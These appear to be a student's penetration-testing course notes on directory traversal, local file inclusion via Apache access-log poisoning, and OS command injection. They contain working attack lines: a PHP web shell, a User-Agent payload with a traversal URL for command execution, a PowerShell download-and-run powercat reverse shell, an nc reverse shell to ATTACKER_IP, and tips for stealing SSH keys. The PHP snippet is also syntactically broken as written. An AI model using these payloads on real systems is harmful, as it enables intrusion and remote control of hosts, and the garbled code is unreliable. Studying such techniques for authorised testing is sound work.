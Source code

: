 ## Section 9.1 Directory Traversal
### Subsection 9.1.2 Identifying and Exploiting Directory Traversals
- Most websites are run in a subdirectory of a low privileged user called www-data
	- /var/www/html/
	- C:\inetpub\wwwroot
- SSH keys can usually be located in ~/.ssh/
- To SSH using a private key file do the following 
```
sudo chmod 400 KEY_FILE
```
```
ssh -i KEY_FILE user@IP
```
### Subsection 9.1.3 Encoding Special Characters
- %2e can be used to replace . when trying to do directory traversal
## Section 9.2 File Inclusion Vulnerabilities
### Subsection 9.2.1 Local File Inclusion (LFI)
- One way to achieve LFI is to include executable code in a local file like access.log at /var/log/apache2/ then browsing to the page which will execute our code
- - LFI can be used to get a reverse shell or to add our authorized key to the authorized keys file 
- to generate an authorized key 
- Quick php one-liner for LFI or as a stand-alone file for web app cmd access
```
<?php echo system($_GET['cmd']; ?>)
```
- Sent the following as the user-agent in the header
	- This was saved to ../../../../../../../../../var/log/apache2/access.log
	- Now when this file is called wiht &cmd=COMMAND the output comes back with the log file information and the cmd output based on where it has been stored in the logs 
	- Did have to use url encoding for spaces doing this
```
# Header
User-Agent: <?php echo system($_GET['cmd']; ?>)
# url call 
http://IP/../../../../../../../../../var/log/apache2/access.log&cmd=whoami
```
## Section 9.4.1 OS Command Injection
- To determine if cmd or powershell is being executed on a windows machine run the following command to see what interpreter is processing it
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
- One-liner to run powercat from download
```
IEX(New-Object System.Net.WebClient).DownloadString("SERVER_ADDRESS/powercat.ps1");powercat -c LHOST -p LPORT -e powershell
```
- nc reverse shell from victim machine
```
# URL encode as needed
nc -e /bin/bash ATTACKER_IP ATTACKER_PORT
```

## Exercises To-Do

- [ ] 2.1.1 (page 20)